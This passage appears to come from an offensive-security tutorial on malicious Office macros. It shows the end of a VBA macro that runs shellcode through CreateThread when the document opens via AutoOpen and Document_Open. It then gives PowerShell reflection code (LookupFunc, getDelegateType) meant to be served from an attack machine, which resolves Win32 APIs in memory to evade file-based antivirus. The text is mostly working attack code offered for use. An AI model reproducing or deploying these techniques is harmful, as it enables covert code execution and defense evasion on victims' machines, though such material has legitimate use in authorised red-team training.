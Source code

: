 ```vba
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

### A Blend of the 2

Keeping things entirely in the memory of the running application is dubiously stable, however downloading and running Powercat to spawn our shell gets zero points for subtlety. There is a middle ground. We can download a payload from our attack machine that will consist of a Powershell script, however this script will be more subtle than Powercat, it will make use of calls to Win32 APIs and DelegateTypes in C\# to keep the resulting exploit entirely in memory, avoiding writing to any files. It will spawn Powershell processes, so may be flagged as suspicious by Defender, but it ought to invisible to a file-based Antivirus.

The following Powershell will serve as our payload, save it as `run.ps1` in a directory from which we're serving a web server:
```powershell
function LookupFunc {
	Param ($moduleName, $functionName)
	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
        Where-Object {
            $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll')
        })
        .GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)
	$type = [AppDomain]::CurrentDomain
        .DefineDynamicAssembly(
            (New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
            [System.Reflection.Emit.AssemblyBuilderAccess]::Run
        )
        .DefineDynamicModule('InMemoryModule', $false)
        .DefineType(
            'MyDelegateType',
            'Class, Public, Sealed, AnsiClass, AutoClass',
            [System.MulticastDelegate]
        )
    $type
        .DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func)
        .SetImplementationFlags('Runtime, Managed')
    $type
        .DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func)
        .SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}
```